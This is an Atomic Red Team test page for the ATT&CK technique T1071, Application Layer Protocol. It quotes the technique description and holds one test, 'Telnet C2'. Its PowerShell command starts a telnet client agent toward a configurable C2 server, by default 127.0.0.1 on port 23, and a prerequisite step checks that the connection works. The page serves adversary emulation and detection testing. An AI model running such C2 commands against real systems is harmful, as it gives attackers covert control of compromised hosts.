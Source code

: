 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1071)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server. 

Adversaries may utilize many different protocols, including those used for web browsing, transferring files, electronic mail, or DNS. For connections that occur internally within an enclave (such as those between a proxy or pivot node and other nodes), commonly used protocols are SMB, SSH, or RDP.(Citation: Mandiant APT29 Eye Spy Email Nov 22) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---telnet-c2)


<br/>

## Atomic Test #1 - Telnet C2
An adversary may establish telnet communication from compromised endpoint to command and control (C2) server to be able to operate more attack on objectives.

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | 127.0.0.1|
| client_path | Client agent path | path | PathToAtomicsFolder&#92;T1071&#92;bin&#92;telnet_client.exe|
| server_port | C2 server port | integer | 23|


#### Attack Commands: Run with `powershell`! 


```powershell
#{client_path} #{server_ip} --port #{server_port}
```




#### Dependencies:  Run with `powershell`!
##### Description: Command and Control (C2) server cam be established by running PathToAtomicsFolder\T1071\bin\telnet_server.exe on specified server with specified IP that must be reachable by client (telnet_client.exe)
##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}
if ($connection.TcpTestSucceeded) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host "Setup C2 server manually"
```




<br/>
